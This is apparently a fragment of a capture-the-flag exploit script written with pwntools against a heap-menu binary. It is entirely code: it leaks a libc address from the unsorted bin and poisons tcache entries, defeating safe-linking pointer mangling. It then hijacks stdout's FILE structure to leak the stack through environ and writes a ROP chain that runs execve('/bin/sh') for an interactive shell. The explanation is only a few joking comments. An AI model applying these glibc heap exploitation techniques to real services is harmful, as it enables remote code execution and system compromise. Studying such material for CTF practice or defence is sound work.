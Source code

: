 ```py
alloc(7, b"YY", 0x100)
alloc(8, b"YY", 0x100)

alloc(9, b"/bin/sh\0", 0x10)

for i in range(7):
    free(i)

alloc(9, b"YY", 100)
free(9)

free(8)
free(7)
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # - 0x1bebe0 # offset of the unsorted bin

rop = pwn.ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)

environ = libc.address + 0x221200 
stdout = libc.address + 0x21a780

pwn.log.info(f"libc: {hex(libc.address)}")
pwn.log.info(f"environ: {hex(environ)}")
pwn.log.info(f"stdout: {hex(stdout)}")

alloc(0, b"YY", 0x100)
free(8)
alloc(1, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stdout ^ ((heap + 0xb20) >> 12))), 0x130)
alloc(2, b"TT", 0x100)
alloc(3, pwn.p32(0xfbad1800) + pwn.p32(0) + pwn.p64(environ)*3 + pwn.p64(environ) + pwn.p64(environ + 0x8)*2 + pwn.p64(environ + 8) + pwn.p64(environ + 8), 0x100)

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x130 - 8# - 0x1bebe0 # offset of the unsorted bin
pwn.log.info(f"stack: {hex(stack)}")

free(1) # large
free(2)

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >> 12))), 0x130)
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing lmao

io.interactive()
```
